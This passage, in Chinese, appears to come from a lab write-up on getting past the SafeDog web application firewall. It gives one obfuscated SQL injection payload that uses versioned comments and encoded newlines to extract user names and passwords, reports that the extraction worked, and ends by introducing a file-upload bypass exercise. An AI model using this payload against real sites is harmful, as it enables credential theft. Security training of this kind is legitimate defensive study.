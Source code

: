 ```sql
```   
成功获得字段名。   
![Alt text](image-47.png)   
获取登录名和密码。   
```sql
 1' regexp '%0A%23'   /*!11145UniOn %0ASeLect*/ concat(/*!11145user,0x7e,password)*/,2 /*!--+/*%0A/*!from *//*!--+/*%0Ausers*//*!11145*/--+&Submit=Submit#
```   
成功获取到登录名和密码数据。   
![Alt text](image-48.png)
# 三、WAF 绕过文件上传：判断安全狗对于上传文件的检测规则，是基于文件后缀名、文件类型、文件内容中的哪项来进行匹配拦截，给出推导过程。